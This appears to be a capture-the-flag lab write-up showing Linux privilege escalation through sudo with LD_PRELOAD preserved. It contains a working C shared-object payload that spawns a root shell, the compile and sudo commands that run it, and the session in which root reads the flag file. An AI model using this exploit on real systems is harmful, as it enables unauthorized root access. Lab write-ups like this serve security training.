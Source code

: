 ## privesc abusing Sudo (LD_PRELOAD)

    noobuser@attackdefense:~$ id
    uid=999(noobuser) gid=999(noobuser) groups=999(noobuser)
    noobuser@attackdefense:~$ sudo -l
    Matching Defaults entries for noobuser on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, 
        env_keep+=LD_PRELOAD
    User noobuser may run the following commands on attackdefense:
        (root) NOPASSWD: /usr/sbin/apache2

then write C program in the writtable directory such as /var/tmp , /dev/shm and /tmp directory and save it to LD_PRELOAD_privesc.c

> #include <stdio.h>
> #include <sys/types.h>
> #include <stdlib.h> 
> void _init() { 
> unsetenv("LD_PRELOAD"); 
> setgid(0); 
> setuid(0); 
> system("/bin/bash"); 
> }

then compile the file and generate the object file

    noobuser@attackdefense:~$ /usr/bin/gcc -fPIC -shared -o LD_PRELOAD_privesc.so LD_PRELOAD_privesc.c -nostartfiles
    noobuser@attackdefense:~$ sudo LD_PRELOAD=/tmp/LD_PRELOAD_privesc.so /usr/sbin/apache2
    root@attackdefense:/tmp# id
    uid=0(root) gid=0(root) groups=0(root)
    root@attackdefense:/tmp# find /root/ type f -name flag
    /root/flag
    find: 'type': No such file or directory
    find: 'f': No such file or directory
    root@attackdefense:/tmp# cat /root/flag
    368b21993<snip>1ac697cc83
    root@attackdefense:/tmp# yeayy


